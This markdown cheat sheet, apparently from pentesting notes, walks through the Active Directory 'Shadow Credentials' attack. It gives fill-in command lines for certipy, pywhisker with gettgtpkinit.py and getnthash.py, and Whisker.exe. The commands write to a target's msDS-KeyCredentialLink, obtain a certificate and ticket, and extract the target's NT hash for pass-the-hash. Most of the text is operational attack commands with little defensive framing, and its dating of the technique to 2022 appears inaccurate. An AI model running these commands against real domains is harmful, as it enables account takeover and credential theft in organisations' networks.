 With shadow credentials attack you can get the NT hash from a target user. Then use it for pass-the-hash.
Requirements are rights enought to write in msDS-KeyCredentialLink and PKINIT enable in kerberos.
Check bloodhound sudgestions to know if this attack vector is available in your case.

### What, when and who:
The Shadow Credentials attack was discovered and presented in 2022 by Elad Shamir and Michael Grafnetter. They revealed the technique during a security research talk, showcasing how attackers can abuse the msDS-KeyCredentialLink attribute to achieve stealthy persistence in Active Directory environments using certificate-based authentication.

# ABUSING SHADOW CREDENTIALS FROM OUTSIDE (from linux):
____________________________________________________


### SHADOW CREDENTIALS ATTACK (with certipy, RECOMENDED):

 * REQUIREMENTS: Get certipy (or certipy-ad in kali) AND UPDATE IT to the last version -> https://github.com/ly4k/Certipy/wiki/04-%E2%80%90-Installation

 You can do this attack with password or NT Hash wit pass the hash technique:
 
` < kerberos sync clock > ; certipy shadow auto -u <user you control>@<domain> -p <password> -account <target user> `

` < kerberos sync clock > ; certipy shadow auto -u <user you control>@<domain> -hashes :<your user NT hash here> -account <target user> `


### SHADOW CREDENTIALS ATTACK (old school method, with pywisker):

 * REQUIREMENTS: Get pywhisker, "gettgtpkinit.py" and "getnthash.py" from this repositoris:
   
     https://github.com/ShutdownRepo/pywhisker?tab=readme-ov-file
   
     https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py
   
     https://github.com/dirkjanm/PKINITtools/blob/master/getnthash.py



` pywhisker -d "< domain >" -u "< user you control>" -p "< password >" --target "<target user>" --action "add" `

` < kerberos sync clock > ; gettgtpkinit.py -cert-pfx <cert from previous command>.pfx -pfx-pass <pass from previous command> <domain>/<user you control> <target user>.ccache `

` export KRB5CCNAME=<target user>.ccache `

` getnthash.py -key <key obtanined from previous command> <domain>/<target user> `

<br>

# ABUSING SHADOW CREDENTIALS FROM INSIDE (windows abuse):
______________________________________________________


### SHADOW CREDENTIALS ATTACK (with whisker.exe):

 Upload Whisker.exe to the target machine and execute:
  ` ./Whisker.exe add /target:<target user> `

 This will gieve you certificate and cert. password, then you can use it outside with gettgtpkinit.py and getnthash.py as above.


 You can also list targeted users:
  ` ./Whisker.exe list /target:<target user> `

 You can also remove targets from msDS-KeyCredentialLink
  ` ./Whisker.exe remove /target:<target user> `


